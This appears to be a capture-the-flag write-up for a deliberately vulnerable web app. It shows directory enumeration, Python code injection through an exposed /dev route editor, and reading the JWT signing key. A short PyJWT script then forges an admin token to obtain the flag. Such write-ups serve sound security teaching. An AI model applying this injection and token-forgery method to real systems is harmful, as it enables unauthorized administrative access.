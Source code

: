 # The Problem

> Our team enlisted the intern to make their new website! Their code passes SonarQ's tests, so, it must be secure...
> right?

# Enumeration

First, we enumerate directories on the ip.

![Enumeration result](./report/enumeration.png)

In the output, we can see notably a `/login` directory and a `/dev` directory.

We follow the `/login` directory to the login page.

![Login page](report/login.png)

We try to find forgotten credentials in the page, common user names and passwords, SQL injection, to no avail.

Then, we check out `/dev`, which seems to have json with the routes in an editable text area. 
Must be some remnant from development.

![/dev page](report/dev.png)

Also noteworthy, there seems to be some python code, so, there is a code injection point!

Trying to find out the environment, we pass `dir()` to the `/exec`'s `method` field.
This yields the following: `['_ep', 'endpoint', 'self']`

To find out more, let's see what properties does `self` have with `dir(self)`: `['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'load_controllers', 'load_routes', 'routes', 'tk_factory']`

We see a `tk_factory`, which must be the provider of tokens. Let's see what are it's properties with `dir(self.tk_factory)`: `['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'generate_token', 'key', 'token_verify']`

Here we seem to be able to manipulate and see all the logic!
Let's get the key that generates the tokens with `self.tk_factory.key`: `708a313dbad5ed23442c63a47aef74444cf8cf1f55526ddb6d240008b7021847338fe56c6b0a259aae297367b98612eb84d7`.

Note that this value can change from session to session.

Now we need a token. For that, we go to the `/register` page in order to register an account.

![img.png](report/register.png)

And we get the token in the url: `https://127.0.0.1:5000/flagpage?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJhZG1pbiI6ZmFsc2V9.zXVLUvyoTUX7zjdz3Zf9-Nij4CnKKa6s04bItkJQMjI`

In order to decrypt it, we can run the following code:

```py
import jwt

secret_key = "<key>"
token = "<token>"

decoded_token = jwt.decode(token, secret_key, algorithms=["HS256"])
print(decoded_token)
```

which returns the following json:

```json
{
  "username": "a", 
  "admin": false
}
```

Now, we can try setting `admin` to `true`. To do this, we run the following code:

```py
encoded_token = jwt.encode(
    {
        'username': 'a',
        'admin': True
    },
    key=secret_key,
    algorithm='HS256'
)

print(encoded_token)
```

which returns `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJhZG1pbiI6dHJ1ZX0.DLqzMzKiXw7XO0pysKdi73ktVulsWZByivQlUuWDNEo`

By replacing this for the token in the url we get the flag!

![img.png](report/flag.png)